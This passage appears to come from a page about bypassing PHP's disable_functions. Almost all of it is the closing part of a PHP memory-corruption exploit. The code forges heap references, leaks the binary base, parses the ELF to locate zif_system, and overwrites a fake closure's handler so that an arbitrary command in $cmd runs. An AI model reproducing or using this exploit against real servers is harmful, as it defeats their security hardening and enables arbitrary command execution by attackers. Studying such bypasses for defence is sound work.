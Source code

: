 ```php
    $abc_addr = $php_heap - 0xc8;

    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }

    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

    ($helper->b)($cmd);
    exit();
}
```

![](ByPaass_disable_Function.assets/ByPass disable_function_8.png)

